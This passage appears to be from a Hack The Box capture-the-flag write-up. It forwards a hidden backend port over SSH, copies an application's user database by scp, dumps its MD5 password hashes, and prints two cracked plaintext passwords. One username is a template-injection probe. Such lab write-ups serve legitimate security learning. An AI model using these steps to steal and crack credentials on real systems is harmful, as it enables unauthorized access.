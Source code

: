 It was useful to open a port forwarded socket to the backend service I identified on 9098 to see what it was:
```sh
$ netstat -tulpn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -   
```
This will make the remote server's :9898 service available from my interfaces :9898
```sh
 ssh app@artificial.htb -L 9898:localhost:9898
```


```python
!curl -X POST 'localhost:9898/v1.Backrest/GetOperations' --data '{}' -H 'Content-Type: application/json'
```

    Unauthorized (No Authorization Header)


Went back for the main applications user database, there might be something useful here.

```sh
 scp app@artificial.htb:/home/app/app/instance/
users.db .
users.db 
```

Throwing these into crackstation we get a couple new passwords.

```sh
sqlite> select * from user
   ...> ;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|tokugero|toku@gero.com|45300156cdf1f89d89659b5dd111adca
7|{{ 1+1 }}|tokugero@gero.com|45300156cdf1f89d89659b5dd111adca
```
https://crackstation.net/
```log
bf041041e57f1aff3be7ea1abd6129d0	Unknown	Not found.
bc25b1f80f544c0ab451c02a3dca9fc6	md5	marwinnarak043414036
b606c5f5136170f15444251665638b36	Unknown	Not found.
0f3d8c76530022670f1c6029eed09ccb	Unknown	Not found.
c99175974b6e192936d97224638a34f8	md5	mattp005numbertwo
```
